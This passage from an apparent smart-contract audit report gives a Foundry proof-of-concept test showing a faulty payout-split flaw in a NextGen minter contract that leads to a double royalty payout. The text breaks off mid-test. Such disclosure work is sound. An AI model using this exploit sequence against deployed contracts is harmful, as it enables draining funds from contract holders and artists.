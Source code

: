 >## Proof of Concept
>
>PoC using foundry. Save file in `hardhat/test/MinterContractTest.t.sol`, also needs `forge-std` in `hardhat/lib`:
>
>```solidity
>// SPDX-License-Identifier: GPL-3.0
>pragma solidity 0.8.19;
>
>import {Test} from "../lib/forge-std/src/Test.sol";
>import {NextGenMinterContract} from "../smart-contracts/MinterContract.sol";
>import {NextGenAdmins} from "../smart-contracts/NextGenAdmins.sol";
>import {INextGenCore} from "../smart-contracts/INextGenCore.sol";
>
>contract MinterContractTest is Test {
>  
>  uint256 constant colId = 1;
>  
>  address team = makeAddr('team');
>  address artist = makeAddr('artist');
>
>  address core  = makeAddr('core');
>  address delegate = makeAddr('delegate');
>
>  NextGenAdmins admin = new NextGenAdmins();
>  NextGenMinterContract minter;
>
>  function setUp() public {
>    minter = new NextGenMinterContract(core, delegate, address(admin));
>
>    vm.mockCall(core, abi.encodeWithSelector(INextGenCore.retrievewereDataAdded.selector), abi.encode(true));
>    vm.mockCall(core, abi.encodeWithSelector(INextGenCore.viewMaxAllowance.selector), abi.encode(1));
>    vm.mockCall(core, abi.encodeWithSelector(INextGenCore.retrieveTokensMintedPublicPerAddress.selector), abi.encode(0));
>    vm.mockCall(core, abi.encodeWithSelector(INextGenCore.viewTokensIndexMin.selector), abi.encode(1));
>    vm.mockCall(core, abi.encodeWithSelector(INextGenCore.viewCirSupply.selector), abi.encode(0));
>    vm.mockCall(core, abi.encodeWithSelector(INextGenCore.viewTokensIndexMax.selector), abi.encode(1_000));
>    vm.mockCall(core, abi.encodeWithSelector(INextGenCore.retrieveArtistAddress.selector), abi.encode(artist));
>    vm.mockCall(core, abi.encodeWithSelector(INextGenCore.mint.selector), new bytes(0));
>
>    minter.setCollectionCosts(colId, 1 ether, 1 ether, 0, 100, 0, address(0));
>    minter.setCollectionPhases(colId, 0, 0, 1, 101, bytes32(0));
>
>    vm.warp(1); // jump one sec to enter public phase
>  }
>
>  function testFaultySplitResultsInDoubleRoyalty() public {
>    // needs to hold one extra eth for payout
>    vm.deal(address(minter),1 ether);
>
>    // mint to increase collectionTotalAmount
>    minter.mint{value: 1 ether}(colId, 1, 1, '', address(this), new bytes32[](0), address(0), 0);
>    assertEq(2 ether, address(minter).balance);
>
>    // begin with setting artist split to 100%, team 0%
>    minter.setPrimaryAndSecondarySplits(colId,
>      100, 0, // primary
>      100, 0  // secondary (not used)
>    );